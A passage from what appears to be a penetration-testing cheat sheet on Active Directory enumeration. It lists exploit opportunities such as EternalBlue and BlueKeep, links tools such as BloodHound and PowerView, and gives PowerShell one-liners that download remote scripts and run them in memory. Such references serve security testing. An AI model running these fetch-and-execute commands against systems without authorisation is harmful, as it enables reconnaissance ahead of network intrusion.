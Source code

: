 - Possible exploit opportunities (MS08-067, EternalBlue, Bluekeep)
- Abusing a running service running in the context of `SYSTEM`

## Enumeration Tools

**adPEAS:** [https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)
**BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
**Invoke-ADEnum:** [https://github.com/Leo4j/Invoke-ADEnum](https://github.com/Leo4j/Invoke-ADEnum)
**Powerview:**[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
**Pywerview:** [https://github.com/the-useless-one/pywerview](https://github.com/the-useless-one/pywerview)

```bash
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup"
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```

## Native AD Module

```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

## General Enumeration

### Domain Computer Enumeration
